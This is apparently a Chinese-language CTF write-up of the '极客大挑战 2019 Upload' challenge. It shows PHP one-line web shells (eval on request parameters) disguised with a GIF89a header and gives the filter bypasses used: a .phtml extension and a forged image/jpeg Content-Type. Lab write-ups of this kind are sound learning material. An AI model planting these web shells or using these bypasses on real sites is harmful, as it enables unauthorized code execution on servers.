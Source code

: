 ### [极客大挑战 2019] Upload

打开后发现是一个要求上传图片的，![image-20241201093212654](C:\Users\LHY\AppData\Roaming\Typora\typora-user-images\image-20241201093212654.png)

传了几个图片发现显示Not image，diao用没有![image-20241201093606817](C:\Users\LHY\AppData\Roaming\Typora\typora-user-images\image-20241201093606817.png)

查看源码，发现一个upload_file.php,访问后出现同样的画面

看提示知这是文件上传漏洞（一句话木马）

![image-20241201094219832](C:\Users\LHY\AppData\Roaming\Typora\typora-user-images\image-20241201094219832.png)

上传后同样出现其不是图片，将其改为图片格式 .png，其图标变成这样了

![image-20241201094429384](C:\Users\LHY\AppData\Roaming\Typora\typora-user-images\image-20241201094429384.png)

上传后出现提示，于是换一个一句话，同时因为其要求是图片格式，打开010editer查看图片，发现图片头是GIF89a,于是将其改为

```php
GIF89a? <script language="php">eval($_REQUEST[1])</script>
```

![image-20241201094512099](C:\Users\LHY\AppData\Roaming\Typora\typora-user-images\image-20241201094512099.png)

> 补：
>
> 1.出现这个提示，表明网站后台有检测，过滤
>
> 2.如果并无要求是图片格式，只需将其改为
>
> ```php
> <script language="php">@eval($_POST["1"]);</script>
> ```
>
> 

再次上传,发现上传成功

![image-20241201095619061](C:\Users\LHY\AppData\Roaming\Typora\typora-user-images\image-20241201095619061.png)

打开antsword，尝试连接，点击测试连接发现出现返回数据为空（下面就是借鉴大佬的了hhh）

![image-20241201095533323](C:\Users\LHY\AppData\Roaming\Typora\typora-user-images\image-20241201095533323.png)

对我们上传的文件进行访问发现无法访问，可能是后缀名错误，于是将文件后缀名改为 .phtml，结果出现![image-20241201093606817](C:\Users\LHY\AppData\Roaming\Typora\typora-user-images\image-20241201093606817.png)

于是再次进行抓包，

![image-20241201100904415](C:\Users\LHY\AppData\Roaming\Typora\typora-user-images\image-20241201100904415.png)

将Content-Type格式改为image/jpeg，然后放包，显示上传成功

![image-20241201101049714](C:\Users\LHY\AppData\Roaming\Typora\typora-user-images\image-20241201101049714.png)
